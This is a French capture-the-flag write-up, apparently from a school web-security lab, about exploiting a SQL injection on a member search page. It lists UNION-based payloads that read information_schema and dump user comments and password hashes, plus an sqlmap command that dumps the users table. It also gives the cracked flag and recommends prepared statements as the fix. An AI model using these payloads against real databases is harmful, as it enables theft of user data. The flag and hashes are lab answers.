 # Explications

Sur la page member search, il y a une SQL Injection.

On peut afficher tous les users de la table en recherchant : "1 or 1=1"

On peut imaginer une requete forgée comme ca derriere :

```sql
SELECT id, firstname, surname FROM users WHERE id = $_GET['id']
```

en passant une UNION on peut donc lui faire afficher ce qu'on veut.
sur la base de donnée MySQL une database (information_schema) contient des informations cruciales, on peut lui faire afficher les autres db / tables / columns.

```
1 or 1=1 UNION select table_name, column_name FROM information_schema.columns
```

On peut voir une table qui s'appelle "users" avec comme column : "user_id, first_name, last_name, town, country, planet, Commentaire, countersign"

Je vous epargne toutes les requetes essayé mais la plus interessante fut : "1 or 1=1 UNION SELECT Commentaire, countersign FROM users"

on obtient une consigne qui nous invite a :

```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

5ff9d0165b4f92b14994e5c685cdce28 (md5->plain text) FortyTwo

fortytwo (ascii->sha256) 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

----

# Cas d'usage

Obtenir un dump de la DB, tous pleins d'infos bien utiles :)

----

# Comment l'eviter ?

Il faut a tout pris passer par des requetes SQL dites prepared, les ORM font tres bien le boulot.
(cf: PDO::prepare)

----

# Good to Know

sqlmap un petit tool en python qui a fait ses preuves depuis, peu permettre de rechercher des SQLi, un petit exemple:

sqlmap -u "http://192.168.2.128/?page=member&id=1&Submit=Submit#" --dump -T users

```
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                      |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
```

Plutot puissant non ?

